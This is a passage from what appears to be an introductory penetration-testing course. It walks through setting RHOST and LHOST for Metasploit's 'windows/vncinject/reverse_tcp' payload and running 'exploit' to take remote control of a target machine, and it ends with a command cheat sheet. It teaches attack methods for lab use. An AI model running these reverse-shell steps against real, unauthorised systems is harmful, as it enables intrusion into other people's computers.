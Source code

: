 After issuing the show options command, we are presented with a series of
choices that are specific to the payload we’ve chosen. When using the
"`windows/vncinject/reverse_tcp`" payload, we see that there are two options
that need to be set because they’re missing any default information. The first
is "`RHOST`" and the second is "`LHOST`". RHOST is the IP address of the remote
host and LHOST is the IP address you’re attacking from. To set these options, we
issue the "`set option_name`" command in the "`msf5 >`" terminal:

```
msf> set RHOST 192.168.1.8
msf> set LHOST 192.168.1.5
```

Now that you’ve required options set, it’s usually a good idea at this point to
reissue the "`show options`" command to ensure you’re not missing any
information.

```
msf5 > show options
```

Once you’re sure you’ve entered all the information correctly, you’re ready to
launch your exploit. To send your exploit to the target machine, simply type "`exploit`"
into the "`msf5 >`" terminal:

```
msf5> exploit
```

Now sit back and watch as the magic happens. To truly appreciate the beauty and
complexity of what’s going on here, you need to build your understanding of
buffer overflows and exploitation. This is something that is highly encouraged
when you finish the basics covered in this course. Metasploit gives you the
ability to stand on the shoulders of giants and the power to launch incredibly
complex attacks with just a few commands. You should revel in the moment and
enjoy the victory of conquering your target, but you should also commit yourself
to learning even more. Commit yourself to really understanding exploitation.

After typing "`exploit`" Metasploit will go off and its thing, sending exploits
and payloads to the target. If you set up everything correctly, after a few
seconds you’ll be presented with a screen belonging to your victim machine.
Because our payload in this example was a VNC install, you’ll have the ability
to view and interacti with the target machine as if you were physically sitting
in front of it. It’s hard not to be impressed and even a little bewildered the
first time you see (or complete) this exploit in real time.

Below you’ll find a cheat sheet of the steps required to run Metasploit against
a target machine.

* Start Metasploit:
  * Open a terminal and issue the following command:
    ```msfconsole```
  * Issue the "`search`" command to search for exploits:
    ````msf5 > search missing_path_number````
  * Issue the "`use`" command to select the desired exploit:
    ```msf5 > use exploit_name_and_path_as_shown_before```
  * Issue the "`show payloads`" command to show available payloads:
    ```msf5 > show payloads```
  * Issue the "`set`" command to select payload
    ```msf5 > set payload path_to_payload_as_shown_before```
  * Issue "`show options`" to view any options needing to be filled out before
    exploiting the target
    ```msf5 > show options```
  * Issue the "`set`" command for any options listed in the previous step
    ```msf5 > set option_name desired_option_value```
  * Issue "`exploit`" to launch exploit against our target
    ```msf5 > exploit```
